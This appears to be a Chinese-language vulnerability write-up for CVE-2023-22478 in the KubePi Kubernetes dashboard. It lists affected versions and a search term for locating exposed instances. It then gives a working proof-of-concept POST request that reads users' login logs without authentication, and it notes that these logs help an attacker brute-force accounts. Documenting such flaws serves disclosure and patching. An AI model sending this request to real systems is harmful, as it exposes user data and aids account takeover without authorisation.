 # 

# KubePi LoginLogsSearch 未授权访问漏洞 CVE-2023-22478

## 漏洞描述

KubePi 是一个现代化的 K8s 面板。KubePi 允许管理员导入多个 Kubernetes 集群，并且通过权限控制，将不同 cluster、namespace 的权限分配给指定用户。它允许开发人员管理 Kubernetes 集群中运行的应用程序并对其进行故障排查，供开发人员更好地处理 Kubernetes 集群中的复杂性。

KubePi LoginLogsSearch 方法下的接口存在未授权访问漏洞，攻击者通过漏洞可以未授权获取用户的登录日志信息，进一步爆破用户。

## 漏洞影响

```
KubePi <= v1.6.4
```

## 网络测绘

```
"kubepi"
```

## 漏洞复现

登录页面

![image-20230504141145409](images/image-20230504141145409.png)

补丁中对路由加了身份验证

![image-20230504141203464](images/image-20230504141203464.png)

对应的接口为

![image-20230504141218134](images/image-20230504141218134.png)

验证POC

```
POST /kubepi/api/v1/systems/login/logs/search?pageNum=1&&pageSize=10 HTTP/1.1
Content-Type: application/json

{}
```

![image-20230504141241265](images/image-20230504141241265.png)
